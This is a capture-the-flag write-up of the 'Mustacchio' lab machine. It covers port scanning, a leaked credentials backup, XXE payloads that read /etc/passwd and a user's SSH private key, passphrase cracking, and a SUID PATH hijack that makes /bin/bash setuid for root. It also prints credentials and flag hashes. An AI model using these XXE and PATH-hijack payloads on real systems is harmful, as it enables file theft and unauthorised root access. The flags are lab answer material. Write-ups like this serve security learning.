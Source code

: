 # Mustacchio

### IP-10.10.19.105  Difficulty: Easy

Started a nmap scan for the IP and got 3 open ports:

```
22 : SSH
80 : HTTP
8765: HTTP
```

In the gobuster scan on port 80, got a directory /custom with /js and /css directories. In /js, found users.bak file.
Downloaded it and opened the file. I contains admin credentials to the port 8765 site.

```
admin:bulldog19
```

Logged into the website and found that It was asking for XML code to run.
In the page source I found that there is a file /auth/dontforget.bak.

Downloaded it and it was a sample of a XML code with three comments i.e. name, author and com. Which means the XML code must contain these three comments.

So to access /etc/passwd file, I found this code:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>comments</com>
</comment>
```

It ran successfully.

Now in the page source it was mentioned that barry can have his ssh key using XML. So to get his id_rsa:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>comments</com>
</comment>
```

Copied it in a file and changed its permissions to 400 by chmod.
It was an encrypted rsa file so I changed the rsa using ssh2john.py and used john to get password for ssh key.

```
passphrase: urieljames
```

Then I sshed into the server using this key and password.

Got the user.txt.

```
user.txt: 62d77a4d5f97d47c5aa38b3b2651b831
```

In the /home/joe, there was a SUID file which we can run as root.
I found out that it was using tail to print out something but without absolute path. So it is vulnerable to path variable attack.

Created a file named tail in /tmp with following conten:

```
chmod +s /bin/bash
```

And made it executable. Added /tmp into the PATH enviornment variable.

And on running the executable file in /home/joe, it successfully changed the permissions of /bin/bash.

Simply ran /bin/bash -p and got root.

```
root.txt: 3223581420d906c4dd1a5f9b530393a5
```
